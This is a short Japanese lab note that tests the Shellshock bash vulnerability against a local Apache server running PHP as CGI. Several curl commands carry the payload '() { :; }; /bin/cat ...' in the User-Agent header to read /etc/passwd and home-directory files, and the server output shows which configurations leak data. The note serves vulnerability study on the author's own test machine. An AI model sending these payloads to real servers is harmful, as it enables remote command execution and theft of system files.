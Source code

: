 ```yaml
---
Keywords: CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 実験メモ
何の実験かは・・・あれですね・・・。

こういうファイルを準備。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/env php

&lt;?php
	system('date');
?&gt;
```

<!--more-->

httpd.confのOptionsのところにExecCGIを追加し、
下にAddHandlerを書く。

```bash
 Options Indexes FollowSymLinks ExecCGI
 AddHandler cgi-script php
```

ホームの下にファイルを準備
```bash
[ueda\@localhost ~]$ ls -l mysecret 
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret
[ueda\@localhost ~]$ cat mysecret 
私の秘密
```

外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php
```

ログを確認。パーミッションで守られている。
```bash
[root\@localhost httpd]# tail error_log 
...
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: 
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] 
```

もう一度突っつく。別のものを。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
守られていない・・・。


今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
&lt;?php
	system('date');
?&gt;
```

もう一度突っつく。
```bash
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
Fri Oct 3 20:27:38 JST 2014
```
大丈夫。

もう一度CGIモードで。こんなコード。
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

&lt;?php
	print(&quot;hoge\\n&quot;);
?&gt;
```

```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null
hoge
```

大丈夫。

これは・・・
```bash
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

&lt;?php
	system(&quot;date&quot;);
?&gt;
```

ダメ。
```bash
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
```
